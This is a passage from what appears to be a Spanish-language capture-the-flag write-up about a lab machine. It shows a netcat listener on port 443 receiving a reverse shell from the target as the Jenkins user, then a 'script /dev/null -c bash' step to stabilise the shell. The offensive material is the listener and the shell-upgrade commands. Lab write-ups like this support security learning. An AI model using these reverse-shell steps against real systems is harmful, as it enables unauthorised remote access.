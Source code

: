 Primero nos ponemos en escucha para recibir la Shell

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

```

Si le damos a ejecutar nos tiene que llegar la shell

![](/assets/images/try-writeup-internal/Web18.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.28.226] from (UNKNOWN) [10.10.182.2] 58612
whoami
jenkins
script /dev/null -c bash
Script started, file is /dev/null
jenkins@jenkins:/$ 
```

Vamos a usar los mismos pasos para poder hacer `ctrl+c`

## Shell Jenkins 

Ya no hay mas interfaces
